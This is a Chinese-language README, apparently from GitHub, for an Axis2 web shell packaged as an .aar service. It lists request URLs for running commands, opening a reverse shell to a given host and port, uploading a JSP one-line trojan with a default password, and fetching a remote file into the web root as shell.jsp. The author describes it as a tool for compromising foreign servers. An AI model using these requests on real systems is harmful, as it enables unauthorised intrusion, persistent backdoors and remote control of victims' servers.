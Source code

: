 axis2
=========

axis2 web shell  
author : Svti  
url : https://github.com/Svti/Axis2Shell  

使用介绍：  

1、命令执行  
http://1.1.1.1/services/config/exec?cmd=whoami   
(不说了，执行命令。注意:xml换行没有处理好)  

2、反弹shell  
http://1.1.1.1/services/config/shell?host=1.1.1.1&port=5555   
(Linux则使用bash反弹shell，Windows则会进行socket执行shell)  


3、文件上传  
http://1.1.1.1/services/config/upload?path=/opt/tomcat/webapps/ROOT/shell.jsp  
(会把resource目录下面的one.txt 写成shell.jsp，注意：全路径，带*文件名)  


4、文件下载  
http://1.1.1.1/services/config/download?url=http://www.ooo.com/mm.txt&path=/opt/tomcat/webapps/ROOT/shell.jsp  
(会把这个URL的文件写成shell.jsp，注意：全路径，带*文件名)  


5、class目录查看  
http://1.1.1.1/services/config/getClassPath  
(会显示当前class的路径，方便文件上传)  

ps:  
趁周末休息，看了几个国外的机器有 axis的 项目，特地去找了@园长的Cat.aar工具，发现真心不好使。  

1、反弹shell 鸡肋，好多错误 ，ls / 都不行。   

2、没有文件上传功能。这个对于一个渗透着来说很重要   

于是自己写了个，希望大家喜欢。   

源码已经上github https://github.com/Svti/Axis2Shell   


aar 文件https://github.com/Svti/Axis2Shell/blob/master/config.aar也在github上面，还有什么问题，可以在下面评论   


注意：   

1、相同文件名的aar文件只能上传一次，虽说是remove Service了，服务器上面的还在。想要继续使用，请rename   

2、默认的jsp一句话木马是/resource/one.txt，可以自己修改。默认密码是wooyun，发布版本里面放的是one.jsp，一向鄙视伸手党  
3、Linux反弹shell 会在当前目录生成一个wooyun.sh的文件，当shell断开后会自动删除  

